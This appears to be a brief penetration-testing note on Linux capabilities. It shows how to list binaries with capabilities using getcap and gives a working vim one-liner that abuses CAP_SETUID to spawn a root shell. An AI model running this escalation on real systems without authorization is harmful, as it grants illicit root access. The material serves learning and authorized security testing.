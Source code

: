 
Capabilities help manage privileges at a more granular level.


# Exploiting Capabilities

First, we use `getcap` tool to list enabled capabilities:

```bash
getcap -r / 2>/dev/null
```

then we use search `GTFObins` online for a list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

For example if we have `CAP_SETUID` set for `vim` we can use the following command to escalate our privileges:

```bash
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
#Note: use py3 if the machine supports py3 not py
```